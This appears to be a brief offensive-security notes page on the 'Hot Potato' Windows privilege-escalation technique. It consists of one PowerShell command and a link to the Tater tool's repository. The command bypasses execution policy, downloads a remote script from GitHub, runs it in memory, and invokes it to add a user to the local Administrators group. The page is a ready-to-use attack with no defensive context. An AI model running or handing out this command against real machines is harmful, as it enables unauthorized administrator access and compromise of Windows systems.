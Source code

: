 # Scripts

## Invoke-HotPotato

```
C:\> powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');Invoke-Tater -Command 'net localgroup Administrators user /add'"
```

---
## References

### Source Repositories

- [Kevin-Robertson: Tater](https://github.com/Kevin-Robertson/Tater)